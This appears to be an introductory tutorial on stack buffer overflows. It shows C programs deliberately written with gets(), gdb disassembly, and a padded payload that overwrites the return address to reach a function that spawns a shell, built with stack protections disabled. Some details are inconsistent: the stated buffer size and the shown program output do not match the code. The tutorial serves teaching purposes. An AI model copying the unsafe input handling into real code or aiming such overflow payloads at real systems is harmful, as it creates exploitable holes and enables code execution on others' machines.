

<h3> Intro to Stack Smashing : Buffer Overflow</h3>
<hr>
</br>
<b> Ques : What is Buffer and what is buffer overflow ? </b> 
</br> 
<b> Ans &nbsp; -> Buffer </b>: Simple a temporary variable used to store data.</br>
<b>&nbsp; &nbsp; &nbsp; &nbsp; &nbsp; -> Buffer Overflow</b>: Occurs when the data written to a buffer is larger than the size of the buffer itself & there are insufficient checks , which further leads to overflow and over-writing to adjacent memory locations.</br>
</br> 
 &nbsp; &nbsp; &nbsp; Example Code : 
</br> 

```bash
user@PC-Name:~# cat vulnerableCode.c
 
#include<stdio.h>
#include<stdlib.h>

int main( int argc,  char *argv[]){
  char ans[10];
  gets(ans);
  puts(ans);

}

user@PC-Name:~# gcc -ggdb vulnerableCode.c -o vulnerableCode -m32
user@PC-Name:~# gdb vulnerableCode
> disass main
Dump of assembler code for function main:
   0x0804844d <+0>:   push   ebp
   0x0804844e <+1>:   mov    ebp,esp
   0x08048450 <+3>:   and    esp,0xfffffff0
   0x08048453 <+6>:   sub    esp,0x20
   0x08048456 <+9>:   lea    eax,[esp+0x16]
   0x0804845a <+13>:  mov    DWORD PTR [esp],eax
   0x0804845d <+16>:  call   0x8048310 <gets@plt>
   0x08048462 <+21>:  lea    eax,[esp+0x16]
   0x08048466 <+25>:  mov    DWORD PTR [esp],eax
   0x08048469 <+28>:  call   0x8048320 <puts@plt>
   0x0804846e <+33>:  leave  
   0x0804846f <+34>:  ret    
End of assembler dump.
```

</br> 
&nbsp; -> The way the stack , the registers and our buffer is rendered in memory is : .
</br> 
&nbsp; -> Now since we know that the stack grows from high memory to low memory and if we somehow are able to <b>over-write the return address with the address of our shellcode or any function we want</b>, then as soon as the function returns the control by popping the `RET` address from stack and jumpoing to it we wil achieve code execution.
</br> 
&nbsp; -> Example : 
</br> 

```bash
user@PC-Name:~# cat canYouExecuteMeCode.c 
#include<stdio.h>
#include<stdlib.h>

char ans[10];

void dangerousFunction()  {
  system("/bin/bash");
}

void getInput() {
  gets(ans);
  puts("String is : ");
  puts(ans);
}

int main( int argc,  char *argv[]){
  getInput();
}

# goal is to execute the function dangerousFunction as it would give us shell on the machine.

# For demo purposes  : Disable ASLR & compile with no stack canary + set stack as executable
user@PC-Name:~# gcc -ggdb canYouExecuteMeCode.c -o canYouExecuteMeCode -m32 -fno-stack-protector -z execstack
> disass dangerousFunction 
Dump of assembler code for function dangerousFunction:
  `0x0804847d` <+0>: push   ebp
   0x0804847e <+1>:  mov    ebp,esp
   0x08048480 <+3>:  sub    esp,0x18
   0x08048483 <+6>:  mov    DWORD PTR [esp],0x8048570
   0x0804848a <+13>: call   0x8048340 <puts@plt>
   0x0804848f <+18>: mov    DWORD PTR [esp],0x804857d
   0x08048496 <+25>: call   0x8048350 <system@plt>
   0x0804849b <+30>: leave  
   0x0804849c <+31>: ret    
End of assembler dump.

#If we somehow get the EIP (Instruction Pointer) to point to this location `0x0804847d` then this function would automatically be executed.

```

</br> 
<ul>
<li type=1>If we somehow get the EIP (Instruction Pointer) to point to this location `0x0804847d` i.e address of dangerousFunction(which gives us shell)then this function would automatically be executed.</li>
<li type=1>Now let's recollect all what we know -:</li>
&nbsp;-> layout of the stack and the fact that the buffer size of the input in 12 bytes</br>
&nbsp;-> The code running on the machine is 32-bit which means bufferSize + 8bytes(bcoz of EBP and RET address pushed in stack) + sizeof(variables declared on stack) needs to be junked and address which we want EIP to point to should be passed next.</br>
&nbsp;-> The code running on the machine is little endian (must be kept in mind while passing address)</br>
&nbsp;-> The address of dangerousFunction i.e 0x0804847d.
<li type=1>Let us create our payload now</li>

```bash
# In our case we needed 24bytes after which we can inject our actual payload.
user@PC-Name:~# echo -e 'AAAAAAAAAAAAAAAAAAAAAAAA\x7d\x84\x04\x08'
# Note the actual address passed is in reverse order (thanks to little endian)
```

<li type=1>Let's hack it..</li>

```bash
user@PC-Name:~# echo -e 'AAAAAAAAAAAAAAAAAAAAAAAA\x7d\x84\x04\x08' | ./canYouExecuteMeCode
String is at : 0xffffd724
String is at : 0xffffd724
AAAAAAAAAAAAAAAAAAAAAAAA}�
`GIVING SHELL`
`Illegal instruction (core dumped)` 
`user@PC-Name:~# `

```
<li type=1>Shell is up.</li>
<li type=1>In this example we had a `dangerousFunction()` in the code, but it will never be there in real world</li>
<li type=1>IIn the next Example we will see how we can inject our custom<a href="./shellcode.md" target="_blank"> shellcode </a> and expoit buffer overflow to get shell.</li>
</ul>
</br> 

